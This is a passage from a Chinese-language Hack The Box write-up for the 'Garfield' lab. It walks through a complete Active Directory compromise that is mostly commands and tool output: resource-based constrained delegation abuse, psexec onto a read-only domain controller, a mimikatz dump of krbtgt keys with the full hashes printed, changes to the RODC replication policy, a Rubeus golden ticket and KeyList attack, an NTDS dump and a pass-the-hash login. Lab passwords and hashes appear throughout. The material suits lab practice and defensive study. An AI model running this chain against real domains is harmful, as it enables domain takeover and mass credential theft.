userAccountControl: WORKSTATION_TRUST_ACCOUNT
whenChanged: 2026-04-06 18:33:28+00:00
whenCreated: 2026-04-06 18:33:26+00:00
```

#### 修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性

```bash
proxychains4 -q impacket-rbcd -delegate-to 'RODC01$' -delegate-from 'JJ$' -action write 'garfield.htb/l.wilson_adm:Zhaha123!' -dc-ip 192.168.100.2
```



#### 申请票据

```bash
impacket-getST -spn cifs/RODC01.garfield.htb -impersonate Administrator garfield.htb/JJ\$:'Zhaha123!' -dc-ip 10.129.76.171
```



#### 登录RODC01$

```bash
# 导入票据
export KRB5CCNAME='/root/Desktop/HTB/S10/Garfield/Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache'
# 登录
proxychains4 -q impacket-psexec -k -no-pass RODC01.garfield.htb
```



上线cs,并使用mimikatz dump出krbtgt_8245的hash

```bash
mimikatz lsadump::lsa /inject /name:krbtgt_8245
```

```shell
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245

 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2
    LM   : 
  Hash NTLM: 445aa4221e751da37a10241d962780e2
    ntlm- 0: 445aa4221e751da37a10241d962780e2
    lm  - 0: 0ab3d34a182bb016fc4cfd26544a9f16

 * WDigest
    01  6d31d1f92ef6d85f5517944f98bf5753
    02  8c46bd5ddc680291e70800990dbc02e3
    03  9ffbc24f29b9bb3df3c32b76631ff874
    04  6d31d1f92ef6d85f5517944f98bf5753
    05  8c46bd5ddc680291e70800990dbc02e3
    06  8fc97c500bf9c7c4a0d34a497f9c5245
    07  6d31d1f92ef6d85f5517944f98bf5753
    08  c4bac61b7ecb407d358f836d2f4e19c6
    09  c4bac61b7ecb407d358f836d2f4e19c6
    10  d8938c80e1e0c80a2ec1d8b06f42cb31
    11  67f002aa49f4400fa970a53e294f4bee
    12  c4bac61b7ecb407d358f836d2f4e19c6
    13  56062e2db43bc0069deb86de87509ca6
    14  67f002aa49f4400fa970a53e294f4bee
    15  7250fcfc09d9cb93345c0c1393e19e52
    16  7250fcfc09d9cb93345c0c1393e19e52
    17  04b30cd8b5381d4b8458b0c996503a91
    18  b48bda9ef98982d5ee33766a74880e01
    19  bb365cf4f0bcdadf35b6a9b04c58257b
    20  85addbd6d603cca1b500f2da02b205d0
    21  b6186618611e202aae4141716e6603f5
    22  b6186618611e202aae4141716e6603f5
    23  f3f6c9408db132bf8e59413b7b40bb16
    24  0acf88cc5cb3b35888708ebefe658b6f
    25  0acf88cc5cb3b35888708ebefe658b6f
    26  08b8941632a5017e7178a3761dfaf7fb
    27  c1b2fd89d0dafb5f9e18147042bdc433
    28  712f0b6ed3b7eb7f6f135a1e298c4e09
    29  bf8d51270f7f657079bb9744446d70cb

 * Kerberos
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      des_cbc_md5       : d540fe6192b9ecfe

 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
      aes128_hmac       (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
      des_cbc_md5       (4096) : d540fe6192b9ecfe

 * NTLM-Strong-NTOWF
    Random Value : f4b51c2c0d006172304e31dbc6e0de6b
```



### Golden Ticket 伪造

#### 关键凭据

- **krbtgt_8245** 
  - `sid` : S-1-5-21-2502726253-3859040611-225969357
  - `AES256` : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
  - `RODC Number` : 8245

#### 修改RODC复制策略

```bash
# kali
bloodyAD --host garfield.htb -u l.wilson_adm -p 'Zhaha123!' set object "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" \
  msDS-RevealOnDemandGroup \
  -v "CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb" \
  -v "CN=Administrator,CN=Users,DC=garfield,DC=htb"


bloodyAD --host garfield.htb -u l.wilson_adm -p 'Zhaha123!' set object "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" \
  msDS-NeverRevealGroup \
  -v "CN=Account Operators,CN=Builtin,DC=garfield,DC=htb" \
  -v "CN=Server Operators,CN=Builtin,DC=garfield,DC=htb" \
  -v "CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb"
```



#### 伪造票据

上传rubeus.exe

```
.\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357
```



### KeyList Attack

```powershell
.\Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:ticket_2026_04_08_19_59_04_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /nowrap
```



### 票据格式转换

```bash
sed -i 's/^[[:space:]]*//' ticket.b64
tr -d '\r\n\t ' < ticket.b64 | base64 -d > ticket.kirbi
ls -l ticket.kirbi
xxd -l 8 ticket.kirbi
```

### Dump NTDS

```bash
nxc smb DC01.garfield.htb --use-kcache --ntds
```



### 登录

```bash
impacket-wmiexec 'garfield.htb/administrator@10.129.76.171' -hashes ':ee238f6debc752010428f20875b092d5'
```




